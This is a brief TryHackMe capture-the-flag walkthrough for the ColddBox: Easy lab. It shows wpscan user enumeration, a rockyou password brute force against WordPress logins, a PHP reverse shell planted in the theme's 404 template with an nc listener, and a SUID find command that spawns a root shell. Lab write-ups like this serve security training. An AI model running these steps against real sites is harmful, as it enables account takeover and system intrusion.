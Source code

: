 ```yaml
---
title: ColddBox:Easy WalkThrough
permalink: /colddbox
layout: page
tags: TryHackMe
---
```

# ColddBox:Easy
# ![front](/images/coldd/front.png)
[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## Open Ports:
- 9: discard
- 80: HTTP
![ports](/images/coldd/ports.png)
	
## Gaining Access:
* Found a wordpress website with version on **nmap** scan `4.1.31`

```
$ wpscan --url http://10.10.176.163  -e vp,vt,u       
````	
![wp](/images/coldd/wp.png)

* Found anuthors/users:

![users](/images/coldd/users.png)
 * Hugo
 * C0ldd
 * Philip

* Now performing password bruteforce for these 3 usernames
```
$ wpscan --url  http://10.10.176.163 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd,hugo,philip
```
![passwd](/images/coldd/passwd.png)

* Using this password we can login to /wp-admin
* Go to appearance and editor, select `404 templet` to edit.
* Paste the php revshell from pentestmonkey in the editor 
* Start the listener `nc`
* To execute the revsheel access: `http://ip/>p=404.php`
* Unable to access usr.txt
* Uploading linpeas.sh
* Found suid set on **_find_**

```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
*  Now we have root access.

### User Flag:
![uf](/images/coldd/uflag.png)

## Root Flag:
![root](/images/coldd/root.png)

	
	
